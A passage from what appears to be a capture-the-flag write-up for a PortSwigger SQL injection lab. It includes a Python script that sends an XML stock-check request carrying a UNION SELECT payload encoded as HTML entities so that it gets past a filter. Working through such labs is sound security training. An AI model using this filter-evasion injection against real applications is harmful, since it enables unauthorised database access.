 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-18/images/Pasted%20image%2020221211030100.png)

**Hmm... When we try to fetch more than 1 column, it returns `0 units`, which indicates that's an error occurred.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/python3

import requests

def main():
    url = 'https://0a81001a045a7203c0f32139003300c9.web-security-academy.net/product/stock'

    cookie = {
        'session': 'YOUR_SESSIONID'
    }

    header = {
        'Content-Type': 'application/xml'
    }

    # UNION SELECT NULL
    payload = '&#85;&#78;&#73;&#79;&#78;&#32;&#83;&#69;&#76;&#69;&#67;&#84;&#32;&#78;&#85;&#76;&#76;'
    
    xml = f'''<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>1</productId>
        <storeId>1 {payload}</storeId>
    </stockCheck>'''

    print(requests.post(url, cookies=cookie, headers=header, data=xml).text)

if __name__ == '__main__':
    main()
```